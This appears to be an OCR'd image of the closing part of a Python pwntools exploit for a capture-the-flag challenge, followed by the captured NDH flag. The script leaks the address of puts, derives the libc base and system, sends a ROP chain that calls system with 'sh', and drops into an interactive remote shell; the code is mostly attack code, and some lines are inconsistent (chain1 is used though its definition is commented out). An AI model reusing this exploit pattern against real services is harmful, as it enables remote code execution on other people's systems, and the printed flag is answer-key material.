 ```python
    # rem.recvline()
    m2 = ""
    for _ in range(16):
        m1 += rem.recvline()
    log.info("result matrix:\n" + m2)

    rem.recvline(timeout=1)


rem = new_con()

exploit(chain0)

# raw_input()

# rem.recvline()
leak = rem.recvline().strip("\n")
log.info("leaked:\n" + hexdump(leak))

if not leak:
    log.error("failed to leak address!")

puts_addr = u64(leak.ljust(8, "\x00"))
log.info("puts @ 0x{:x}".format(puts_addr))
libc.address = puts_addr - libc.symbols['puts']
log.info("leaked libc base at 0x{:x}, system at 0x{:x}"
         .format(libc.address, libc.symbols['system']))

# old non-working ROP chain
# chain1 = ROP([velf, libc])
# chain1.raw(poprdiret)
# chain1.raw(shaddr + libc.address)
# chain1.raw(velf.symbols['exit'])

exploit(chain1)
rem.sendline(p64(libc.symbols['system']) + "sh\x00")

# rem.shutdown()
# log.info(hexdump(rem.recvall()))

with context.local(log_level='debug'):
    rem.interactive()
"""
NDH{d7ef20eef497a1eb9d0d119b45b3855d72e7f594923670e7290aa940e4d3c6f5}
"""
```
